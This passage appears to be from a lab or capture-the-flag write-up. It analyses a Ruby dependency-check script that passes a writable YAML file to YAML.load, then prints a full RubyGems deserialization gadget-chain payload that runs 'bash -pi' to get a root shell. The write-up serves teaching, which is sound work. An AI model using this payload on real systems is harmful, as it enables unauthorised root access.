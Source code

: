 Let's take a look at this script and see what it does.

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
{:file="/opt/update_dependencies.rb"}

This script doesn't do much besides calling `YAML.load` on the content of the file `dependencies.yml`{:.filepath} from our working directory. When looking into vulnerabilities affecting `YAML.load`, we discover that it is not safe to use with user supplied data. We also run into [this wonderful post](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) that describes a gadget chain we could potentially use to execute commands as _root_. We'll modify the command within the YAML payload from the post to spawn an interactive root shell.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -pi"
         method_id: :resolve
```
{:file="dependencies.yml"}